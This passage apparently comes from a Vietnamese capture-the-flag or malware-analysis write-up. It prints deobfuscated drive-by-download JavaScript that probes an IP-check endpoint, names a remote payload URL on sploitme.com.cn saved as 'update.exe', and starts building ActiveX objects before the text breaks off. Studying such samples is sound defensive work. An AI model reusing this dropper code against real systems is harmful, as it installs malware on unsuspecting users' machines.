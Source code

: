 Follow theo đoạn code trên để lấy output

![alt text](./img/image11.png)

```javascript
function Complete() {
    setTimeout('location.href = "about:blank', 2000);
}function CheckIP() {
    var req = null;
    try {
        req = new ActiveXObject("Msxml2.XMLHTTP");
    } catch (e) {
        try {
            req = new ActiveXObject("Microsoft.XMLHTTP");
        } catch (e) {
            try {
                req = new XMLHttpRequest();
            } catch (e) {}
        }
    }if(req == null) return "0";
    req.open("GET", "/fg/show.php?get_ajax=1&r=" + Math.random(), false);
    req.send(null);
    if (req.responseText == "1") {
        return true;
    } else {
        return false;
    }
}var urltofile = 'http://sploitme.com.cn/fg/load.php?e=1';
var filename = 'update.exe';

function CreateO(o, n) {
    var r = null;
    try {
        r = o.CreateObject(n)
    } catch (e) {}if(!r) {
        try {
            r = o.CreateObject(n, '')
        } catch (e) {}
    }if(!r) {
```